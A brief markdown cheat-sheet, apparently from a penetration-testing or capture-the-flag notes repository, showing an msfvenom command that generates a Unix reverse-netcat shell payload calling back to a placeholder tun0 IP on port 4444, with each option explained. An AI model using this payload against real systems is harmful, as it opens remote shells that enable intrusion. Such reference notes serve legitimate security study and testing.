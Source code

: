 # msfvenom

# Syntax

- `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

# Options

- `-p` Payload
- `lhost` Local IP
- `lport` Local Port
- `R` Export the payload in raw format
